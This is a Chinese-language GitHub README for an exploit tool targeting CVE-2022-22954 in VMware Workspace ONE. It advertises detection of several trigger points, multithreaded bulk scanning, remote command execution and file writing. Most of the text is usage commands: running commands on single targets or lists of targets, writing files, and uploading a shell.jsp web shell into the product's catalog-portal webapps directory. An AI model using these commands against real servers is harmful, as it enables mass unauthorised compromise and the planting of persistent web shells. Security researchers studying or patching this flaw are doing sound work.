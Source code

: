 ![CVE-2022-22954](https://socialify.git.ci/bewhale/CVE-2022-22954/image?description=1&font=Inter&forks=1&issues=1&language=1&owner=1&pattern=Solid&stargazers=1&theme=Light)




多个漏洞触发点检测，多线程批量检测，命令执行，文件写入

```
// 单个目标漏洞检测
python CVE-2022-22954.py -u https://x.x.x.x

// 命令执行
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// 写文件
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// 上传文件，windows 设置文件名需要指定路径
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// 上传到指定路径
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// 批量检测，用法一致
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```

![](https://raw.githubusercontent.com/bewhale/CVE-2022-22954/main/1.png)

# 参考文章
https://mp.weixin.qq.com/s/2qHhPs1HcEXVQb7bkC3mcA
